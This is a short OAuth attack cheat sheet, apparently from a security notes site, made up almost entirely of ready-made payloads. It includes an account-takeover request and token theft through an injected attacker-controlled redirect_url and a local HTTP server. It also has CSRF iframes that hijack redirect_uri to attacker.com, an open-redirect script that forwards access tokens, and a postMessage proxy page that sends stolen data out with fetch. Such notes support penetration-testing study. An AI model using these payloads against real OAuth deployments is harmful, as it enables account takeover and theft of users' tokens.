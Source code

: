 ```yaml
---
title: OAuth Attack
desc: 
tags: [Burp, CSRF, OAuth, Web]
alts: []
render_with_liquid: false
---
```


## 1. Change User Info

```json
POST /authenticate HTTP/1.1
...

{
    "email":"victim@example.com",
    "username":"attacker",
    "token":"b7Gl7Xoy..."
}
```

<br />

## 2. Steal Tokens

1. **Open Web Server in Your Local Machine**

    ```sh
    python3 -m http.server 8000
    ```

2. **Inject Your Local URL to the Redirect URL**

    Access to the URL below.

    ```sh
    https://vulnerable.com/oauth?redirect_url=http://<attacker-ip>:8000/login&response_type=token&scope=all
    ```

<br />

## 3. CSRF

1. **Steal Code**

    ```html
    <iframe src="https://vulnerable.com/oauth-linking?code=kZ7bfFa..."></iframe>
    ```

2. **Hijack redirect_url**

    ```html
    <iframe src="https://vulnerable.com/auth?client_id=ysdj...&redirect_uri=https://attacker.com&response_type=code&scope=openid%20profile%20email">
    </iframe>
    ```

3. **Open Redirect**

    ```html
    <script>
        if (!document.location.hash) {
            window.location = 'https://vulnerable.com/auth?client_id=7Fdx8a...&redirect_uri=https://vulnerable.com/oauth-callback/../post/next?path=https://attacker.com/exploit/&response_type=token&nonce=398...&scope=openid%20profile%20email'
        } else {
            window.location = '/?'+document.location.hash.substr(1)
        }
    </script>
    ```

4. **Proxy Page (postMessage)**

    ```html
    <iframe src="https://vulnerable.com/auth?client_id=iknf...&redirect_uri=https://vulnerable.com/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-118...&scope=openid%20profile%20email"></iframe>
    <script>
        window.addEventListener('message', e => {
            fetch("/" + encodeURIComponent(e.data.data));
        }, false);
    </script>
    ```

